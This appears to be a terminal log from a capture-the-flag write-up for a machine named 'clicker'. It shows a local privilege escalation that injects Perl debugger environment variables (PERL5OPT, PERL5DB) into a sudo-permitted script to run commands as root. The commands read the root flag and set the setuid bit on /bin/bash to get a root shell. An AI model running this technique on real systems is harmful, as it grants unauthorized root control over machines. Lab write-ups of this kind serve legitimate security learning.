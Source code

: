 ```bash
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='exec "ls /root"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
        (Maybe you meant system() when you said exec()?)
diagnostic_files  restore  root.txt

jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='exec "cat /root/root.txt"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
        (Maybe you meant system() when you said exec()?)
1935398ee1747c1483d00c00e651a9e2

jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh

jack@clicker:~$ bash -p
bash-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root)
bash-5.1# cat /root/root.txt
1935398ee1747c1483d00c00e651a9e2
```